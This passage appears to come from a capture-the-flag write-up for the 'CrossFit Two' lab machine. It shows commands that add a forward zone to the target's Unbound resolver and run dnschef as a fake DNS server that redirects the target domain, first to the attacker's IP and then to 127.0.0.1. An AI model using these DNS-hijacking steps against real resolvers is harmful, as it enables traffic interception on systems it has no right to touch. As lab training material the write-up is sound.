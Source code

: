 ```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i <Domain_name> <DNS_server_IP>
```

![](/assets/img/posts/crossFitTwo/add-nbound-zone.png)

#### Setup fake dns and http server

```bash
dnschef -i <VPN_IP> --fakedomains <Domain_name> --fakeip <VPN_IP>
```

![](/assets/img/posts/crossFitTwo/dnschef-tun0.png)

Get DNS quarry but don't get any http request. Server response with "Only local hosts are allowed". That means there are some security measures in the server that checks if dns resolves localhost or not.

Replacing domain ip to localhost `127.0.0.1`

![](/assets/img/posts/crossFitTwo/dnschef-l0.png)

